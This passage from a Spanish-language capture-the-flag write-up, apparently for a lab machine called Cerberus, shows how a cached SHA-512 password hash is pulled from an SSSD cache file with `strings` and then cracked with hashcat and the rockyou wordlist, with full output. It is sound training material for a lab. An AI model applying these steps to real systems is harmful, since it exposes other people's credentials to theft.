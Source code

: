 Usaremos la herramienta `strings` para extraerlo en una sola línea, ya que es una cadena en texto plano

```bash
❯ strings cache.cerberus.ldb
TDB file
&DN=CN=SUDORULES,CN=CUSTOM,CN=CERBERUS.LOCAL,CN=SYSDB
cn=sudorules,cn=custom,cn=cerberus.local,cn=sysdb
sudorules
sudoLastFullRefreshTime
1677760424
... [snip]
TRUE
lastUpdate
1677672476
dataExpireTimestamp
initgrExpireTimestamp
cachedPassword
$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0
cachedPasswordType
lastCachedPasswordChange
1677672476
failedLoginAttempts
... [snip]
```

El hash es de tipo SHA-512, va a tomarnos un rato crackearlo (si es una contraseña débil); afortunadamente dicha contraseña está en las primeras lineas de nuestro diccionario favorito

```bash
❯ hashcat -m 1800 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
... [snip]
Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCNm0VGJnX/Mu608QkliMpIy1FwKZlyUJAZU3FZ3.GQ.4N6bb9pxE3t3T0:147258369
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 1800 (sha512crypt $6$, SHA512 (Unix))
Hash.Target......: $6$6LP9gyiXJCovapcy$0qmZTTjp9f2A0e7n4xk0L6ZoeKhhaCN...E3t3T0
Time.Started.....: Thu Aug  3 14:25:43 2023 (3 secs)
Time.Estimated...: Thu Aug  3 14:25:46 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      370 H/s (8.35ms) @ Accel:64 Loops:512 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 512/14344384 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 448/14344384 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4608-5000
Candidate.Engine.: Device Generator
Candidates.#1....: lover -> letmein
Hardware.Mon.#1..: Temp: 80c Util: 97%

Started: Thu Aug  3 14:24:45 2023
Stopped: Thu Aug  3 14:25:48 2023
```